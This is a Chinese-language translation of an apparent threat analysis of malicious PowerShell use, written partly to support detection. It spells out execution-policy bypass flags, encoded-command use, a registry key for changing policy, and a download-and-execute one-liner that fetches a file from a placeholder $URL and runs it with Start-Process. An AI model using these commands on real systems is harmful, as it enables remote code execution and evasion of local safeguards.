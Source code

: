 > (译者注：-command 为参数，自己设置) 使用 EncodedCommand 参数可以执行一个 Base64 编码的命令。

同样不会受执行策略限制。例子： 

`Powershell.exe –enc [ENCODED COMMAND]  `

> (译者注:ENCODED COMMAND 为将 ps1 脚本编码后的字符)用执行策略并将”bypass”或”unrestricted”作为参数。例子： `Powershell.exe –ExecutionPolicy bypass –File myscript.ps1` 

如果攻击者可以访问交互式 powershell 会话，那么他们可以用其它方法，如 Invoke-Command 或简单的将脚本黏贴或者剪切到会话中。 

如果攻击者可以执行在受威胁的计算机上执行代码，他们可以修改注册表中的执行策略，存储在下面的项中: 
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell `

#### SCRIPT EXECUTION（脚本执行）

在多数情况下，powershell 脚本使用 post-exploitation 作为下载器为附加的 payloads。当 Restricted 执行策略阻止用户运行.ps1扩展的powershell脚本时，攻击者可以用其它的扩展来准许他们的脚本执行Powershell接收一个参数列表，在大多数情况下，恶意脚本用下面的参数来躲避检测和 bypass 本地限制。 

```c
-Nop/-NoProfile (忽略配置文件中的命令) 
-Enc/-EncodedCommand(运行经过 base64 编码的命令) 
-W Hidden/-WindowStyle(隐藏命令窗口) 
-Exec bypass/-ExecutionPolicu Bypass(忽略执行策略限制) 
-NonI/-NonInteractive(不显示交互信息) 
-C/-Cmmand(运行单个命令) 
-F/-File(从指定文件中运行命令) 
```

因为 powershell 自动将`*`字符加入到参数标志中，很多不关键字可以被缩写，比如，不用输入`-EncodedCommand`,可以直接输入`-enco`或者`-encodedc`都是可以的，这将会很难自动识别命令参数。在进行模式匹配时应牢记。 

到目前为止，我们还没有在攻击中使用版本参数，这将使准许攻击者降低计算机中的 powershell 到一个比较旧的版本，它不能像新版本的那样记录。比如”-version2.0”，我们也没有看到恶意软件使用 PSConsoleFile 命令，加载指定的 powershell 控制文件。 

在恶意 powershell 脚本中，最常见在命令行中使用的命令和函数： 

```c
(New-Object System.Net.Webclient).DownloadString() 
(New-Object System.Net.Webclient).DownloadFile() 
-IEX / -Invoke-Expression 
Start-Process 
```

`System.Net Webclientl`类是用来向远程发送数据，或者接收数据。这对大多数威胁都是至关重要的，这个类包含 DownloadFile 方法，它可以从远程下载一个文件到存到本地， Download-String方法可以将远程的内容下载到内存中的缓冲区。下面的命令可以从远程下载并且执行脚本 ：

```c
Powershell.exe (New-Object System.Net.WebClient).DownloadFile($URL,$LocalFileLocation);Start-Process $LocalFileLocation 
```

`WebClient API `方法 DownloadString 和 DownloadFile，不仅仅是这些方法可以从远程位置下载内容，`Invoke-WebRequest`，`BitsTransfer`,`Net.Sockets.TCPClient`,和更多的方法都可以提供相似的功能。但是 WebClient 是目前为止最常用的一个。 
 
一旦 payload被下载或者混淆，该脚本通常使用其它方法来运行附加代码。有多种方法可以从powershell 开始新的进程。最常用的方式是 Invoke-Expression 和 Start-Process。`Invoke-Expression`允许用户计算和运行动态生成的命令。此方法通常用于直接下载到内存的脚本。 
 
我们也看到威胁使用` Invoke-WMIMethod `和 `New-Service `或者为 WScript 或 shell 应用创建一个新的 COM 对象以执行 payload，它们通常像下面这样： 
`(New-Object –com shell.application).ShellExecute() `
 